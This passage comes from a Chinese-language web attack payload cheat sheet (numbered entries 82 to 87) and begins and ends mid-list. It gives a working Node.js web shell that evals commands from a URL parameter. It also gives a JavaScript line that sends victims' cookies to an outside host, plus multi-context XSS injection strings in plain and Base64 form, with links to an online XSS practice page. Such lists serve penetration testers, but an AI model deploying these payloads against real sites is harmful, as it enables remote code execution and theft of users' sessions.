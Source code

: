##### 82.Node.js Web Shell (Node.js web后门)

```
以下payload用于在易受攻击的Node.js应用程序中创建web后门,在运行下面的有效负载之后，按以下方式使用shell  shell:http://target:5855/?cmd=my_node.js_command  弹出计算示例：cmd=require('child_process').exec('gnome-calculator') 

require('http').createServer(function(req,res){res.end(1-
eval(require('url').parse(req.url,1).query.cmd))}).listen(5855)
```

##### 83.Cookie Stealing (窃取cookie信息)

```
用于从目标站点设置的受害者用户获取所有cookie。如果无法通过httpOnly安全标志。则在URL中将"+"编码为"%2B" 

fetch('//brutelogic.com.br/?c='+document.cookie)
```

##### 84.XSS Online Test Page (XSS在线测试页面)

```
以下地址用于练习XSS向量和有效载荷。检查注入点的源代码。 

https://brutelogic.com.br/xss.php


```

#### 0x05额外

##### 85.HTML Entities Table (HTML实体表)

```
用于HTML编码字符。

https://brutelogic.com.br/utils/charref.htm
```

##### 85.Multi-Case HTML Injection (多案例HTML注入)

```
以下payload可作为一次测试机会，它有更高的成功XSS率。它适用于HTML上下文的所有情况（参见基础部分），包括带有标记注入的JS上下文。

</Script/"'--><Body /Autofocus /OnFocus = confirm`1` <!-->
```

##### 86.Multi-Case HTML Injection - Base64 (多案例HTML注入-Base64)

```
以下payload,在Base64编码以后中作为一次测试机会,可获得更高的XSS成功率。它适用于HTML上下文的所有情况（参见基础部分），包括带有标记注入的JS上下文。

PC9TY3JpcHQvIictLT48Qm9keSAvQXV0b2ZvY3VzIC9PbkZvY3VzID0gY29uZmlybWAxYC
A8IS0tPg==
```

##### 87.Vectors for Fixed Input Length (固定输入长度的payload)
